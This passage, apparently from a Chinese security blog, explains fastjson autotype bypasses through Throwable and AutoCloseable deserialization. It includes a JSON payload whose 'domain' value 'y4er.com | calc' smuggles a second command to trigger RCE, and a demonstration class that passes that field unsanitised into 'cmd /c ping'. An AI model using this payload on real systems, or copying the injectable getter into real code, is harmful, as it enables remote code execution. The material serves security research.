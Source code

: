 

提交json触发rce

```java
{
  "@type":"java.lang.Exception",
  "@type": "org.chabug.fastjson.exploit.ExecException",
  "domain": "y4er.com | calc"
}
```



当然很少有开发者把命令执行写道异常类处理中，所以Throwable鸡肋。

再来看JavaBeanDeserializer，在fastjson中对大部分类都指定了特定的deserializer，而AutoCloseable类没有，通过继承/实现AutoCloseable的类可以绕过autotype反序列化。场景如下：

```java
package org.chabug.fastjson.exploit;

import java.io.Closeable;
import java.io.IOException;

public class ExecCloseable implements Closeable {
    private String domain;

    public ExecCloseable() {
    }

    public ExecCloseable(String domain) {
        this.domain = domain;
    }

    public String getDomain() {
        try {
            Runtime.getRuntime().exec(new String[]{"cmd", "/c", "ping " + domain});
        } catch (IOException e) {
            e.printStackTrace();
        }
        return domain;
    }

    public void setDomain(String domain) {
        this.domain = domain;
    }

    @Override
    public void close() throws IOException {

    }
}
```

